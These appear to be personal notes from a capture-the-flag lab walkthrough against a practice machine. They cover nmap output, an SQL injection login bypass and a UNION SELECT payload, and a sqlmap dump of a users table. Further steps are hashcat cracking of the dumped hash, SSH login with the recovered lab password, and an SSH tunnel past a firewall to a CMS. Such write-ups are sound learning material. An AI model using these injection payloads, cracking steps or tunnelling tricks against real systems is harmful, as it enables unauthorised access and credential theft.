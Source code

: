 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 623.78 seconds

entering ' or 1=1;-- into user field and password blank bypassed login by ending SQL query and providing a true statement

in the game query DB at page 10.10.231.54/portal.php searching

Title Review 2 3 
output for
' UNION SELECT 1,2,3 FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c-- let'

┌─[✗]─[user@parrot]─[~/Desktop]
└──╼ $sqlmap -r requests.txt --dbms-mysql --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

added hash to hash.txt file and performed

hashcat -m 1400 -a 0 hash.txt rockyou.txt on it to reveal 

PW for agent47 = videogamer124

used the creds to SSH into the machine ssh agent47@10.10.231.54

once in ss -tulpin showed a connection on port 10000 which was blocked by an external firewall

ssh -L 10000:localhost:10000  agent47@10.10.231.54 was used to establish a local tunnel to bypass the firewall and get onto the CMS on the parot machine

from there after establishing that tunnel I went to the web browser and did 127.0.0.1:10000 to loginto the CMS with agent47's creds

